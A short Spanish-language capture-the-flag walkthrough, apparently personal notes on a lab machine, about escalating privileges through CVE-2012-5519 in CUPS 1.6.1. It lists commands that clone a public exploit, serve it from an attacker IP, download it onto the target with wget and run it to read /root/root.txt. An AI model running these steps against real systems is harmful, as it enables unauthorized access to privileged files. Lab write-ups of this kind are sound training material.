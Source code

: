 #cve-2012-5519

-------

Entramos desde el navegador al puerto 5000 y vemos que es una pagina, con el servicio *CUPS 1.6.1*
![[Antique26.png]]
Buscando en internet encontramos este [[CVE-2012-5519]]
Y vamos a descargar el [repositorio](https://github.com/p1ckzi/CVE-2012-5519) con [[git clone]] usando el comando `git clone https://github.com/p1ckzi/CVE-2012-5519` luego con [[cd]] vamos a entrar a la carpeta `cd CVE-2012-5519` 
![[Antique27.png]]
Lo vamos a pasar a la maquina victima, levantando un servidor con [[python3 -m http.server]] usando el comando `python3 -m http.server 80`


Ahora con [[wget]] vamos a descargar el binario a ejecutar del [[CVE-2012-5519]] con el comando `wget http://10.10.16.15/cups-root-file-read.sh`
Le damos permiso de ejecucion al archivo con [[chmod]] usando `chmod +x cups-root-file-read.sh`

![[Antique30.png]]
Ahora lo vamos a ejecutar usando `./cups-root-file-read.sh`

Y vamos a leer la flag poniendo ``/root/root.txt``